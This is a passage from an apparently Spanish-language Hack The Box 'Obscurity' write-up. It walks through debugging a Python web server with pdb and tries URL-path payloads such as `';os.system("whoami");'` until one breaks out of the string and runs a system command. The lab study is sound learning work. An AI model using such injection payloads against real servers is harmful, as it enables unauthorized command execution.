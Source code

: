 
Vamos a ejecutar el programa y consultar cualquier recurso en nuestro navegador sobre `localhost`. 

```bash
❯ python3 SuperSecureServer.py
> /home/k4miyo/Documentos/HTB/Obscurity/content/SuperSecureServer.py(142)serveDoc()
-> cwd = os.path.dirname(os.path.realpath(__file__))
(Pdb) 
```

```bash
http://localhost/test
```

A continuación vamos a listan algunos comandos a utilizar para debugear:

- `where` - Nos indica en donde nos encontramos, en donde se realiza el break point. Para este caso, estamos en el punto antes de ejecutar la linea `cwd = os.path.dirname(os.path.realpath(__file__))`.

```bash
(Pdb) where
  /usr/lib/python3.9/threading.py(912)_bootstrap()
-> self._bootstrap_inner()
  /usr/lib/python3.9/threading.py(954)_bootstrap_inner()
-> self.run()
  /usr/lib/python3.9/threading.py(892)run()
-> self._target(*self._args, **self._kwargs)
  /home/k4miyo/Documentos/HTB/Obscurity/content/SuperSecureServer.py(90)listenToClient()
-> self.handleRequest(req, client, address)
  /home/k4miyo/Documentos/HTB/Obscurity/content/SuperSecureServer.py(106)handleRequest()
-> document = self.serveDoc(request.doc, DOC_ROOT)
> /home/k4miyo/Documentos/HTB/Obscurity/content/SuperSecureServer.py(142)serveDoc()
-> cwd = os.path.dirname(os.path.realpath(__file__))
(Pdb)
```

- `p variable` - Obtenemos el valor de la variable. Para este caso vamos a checar el valor de las variables `path` e `info` . Si observamos un poco, el valor de la variable info se encuentra entre comillas simples; esto es importante ya que podríamos tratar de cerrar las comillas simples e insertar comandos.

```bash
(Pdb) p path
'/test'
(Pdb) p info
"output = 'Document: {}'"
(Pdb) p info.format(path)
"output = 'Document: /test'"
(Pdb)
```

- `variable = ` - Cambiamos el valor de una variable. Esto lo realizaremos con el fin de ver que valor dentro del `path` nos pueden ayudar a ejecutar comando a nivel de sistema mediante la expresión `import os; os.system('whoami')`. Debido a que podriamos tener algunos problemas debido a la comillas simples y dobles, vamos a ejecutar el script y desde la ventana del explorador vamos a insertar el código.
	- `http://localhost/';os.system("whoami")'` - Observamos de respuesta `invalid syntax (<string>, line 1)`.
	- `http://localhost/";os.system('whoami')"` - Observamos de respuesta `invalid syntax (<string>, line 1)`.
	- `http://localhost/;os.system("whoami")` - El programa se ejecuta de manera normal y se detiene en donde se presenta el break point. Sin embargo, no vemos el resultado del comando.
	- `http://localhost/';os.system("whoami");'` - El programa se ejecuta de manera normal y se detiene en donde se presenta el break point y podemos ver el resultado de ejecutar el comando `whoami`. Esto se debe a que estamos escapando (`\'`) las comillas simples y nuestro código ya no es tratado como texto, si no como comandos ejecutados a nivel de sistema.
